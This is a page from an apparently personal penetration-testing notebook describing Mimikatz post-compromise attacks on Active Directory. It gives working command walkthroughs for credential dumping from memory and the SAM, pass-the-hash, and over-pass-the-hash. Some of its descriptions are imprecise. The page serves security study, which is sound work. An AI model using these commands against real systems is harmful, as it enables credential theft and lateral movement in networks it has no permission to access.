

repository: RayenManai/MyHackBook · page: Active Directory/attacking-ad/post-compromise-attacks/mimikatz.html · generator: sphinx

# Mimikatz

- Mimikatz is a powerful post-exploitation tool used to view and steal credentials, generate Kerberos tickets, and leverage advanced attacks.
- It can dump credentials stored in memory, including plaintext passwords, password hashes, and Kerberos tickets.
- Highly detectable by antivirus solutions, but devastating when AV is disabled, bypassed, or the tool is obfuscated.
- Enables multiple attack vectors: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Silver Ticket, and Golden Ticket attacks.
- Source: https://github.com/gentilkiwi/mimikatz

## Credential Dumping

### Walkthrough

1. Transfer Mimikatz to the Victim Machine

Using any file transfer method (e.g., SMB, HTTP, or direct copy), place `mimikatz.exe` on the target system.

2. Execute Mimikatz with Elevated Privileges

Open an elevated command prompt or PowerShell session and run Mimikatz:

```
mimikatz.exe
```

3. Enable Debug Privileges

Within the Mimikatz prompt, first enable debug privileges to access protected memory:

```
mimikatz # privilege::debug
```

4. Dump Credentials from Memory

Extract all cached credentials and plaintext passwords stored in memory:

```
mimikatz # sekurlsa::logonPasswords
```

This command displays credentials including:

- **Plaintext passwords** (if stored by applications like browsers, Remote Desktop, or credential manager)
- **NTLM hashes** of user accounts
- **Kerberos tickets** (TGT and TGS)
- **Plain passwords** from Credential Manager (Credman)

5. Extract Additional Credential Stores

Dump credentials from Local Security Authority (LSA):

```
mimikatz # lsadump::sam
```

## Pass-the-Hash (PtH)

Once you obtain NTLM hashes, use Mimikatz to inject them into the current session and authenticate as another user without knowing their password:

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash>
```

This creates a new process running with the stolen hash, allowing lateral movement across the domain.

## Over-Pass-the-Hash

Request a new Kerberos TGT using the user's NTLM hash:

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:powershell.exe
```

Within the new PowerShell session, request a TGT:

```powershell
Invoke-Mimikatz -Command '"kerberos::ask /tgt"'
```

This bypasses password requirements while maintaining Kerberos authentication.
